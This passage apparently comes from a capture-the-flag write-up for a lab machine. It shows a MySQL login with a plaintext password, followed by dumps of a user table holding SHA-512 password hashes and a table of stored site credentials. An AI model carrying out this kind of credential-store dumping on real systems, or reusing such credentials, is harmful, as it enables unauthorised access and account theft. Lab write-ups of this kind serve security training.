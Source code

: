 now we can use the mysql client :

```shell
mysql -usuperpassuser -p
```

With the password : `dSA6l7q*yIVs$39Ml6ywvgK`

Let's explore the databases and datas :

```text
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+
3 rows in set (0.00 sec)

mysql> use superpass
| users               |
+---------------------+
2 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
| id | username | hashed_password                                                                                                          |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
|  1 | 0xdf     | $6$rounds=200000$FRtvqJFfrU7DSyT7$8eGzz8Yk7vTVKudEiFBCL1T7O4bXl0.yJlzN0jp.q0choSIBfMqvxVIjdjzStZUYg6mSRB2Vep0qELyyr0fqF. |
|  2 | corum    | $6$rounds=200000$yRvGjY1MIzQelmMX$9273p66QtJQb9afrbAzugxVFaBhb9lyhp62cirpxJEOfmIlCy/LILzFxsyWj/mZwubzWylr3iaQ13e4zmfFfB1 |
|  9 | john     | $6$rounds=200000$VoP/vPSQ9vR2Lot5$3taBxfwmbmDi0m/cuutknGhbKh7PRyMy0SE3j2LUY//GeOH3qMY7W1gd/vTi9eHU23x9QUIw15gCjzNtYMrOH0 |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
3 rows in set (0.00 sec)

mysql> select * from  passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
5 rows in set (0.00 sec)
```
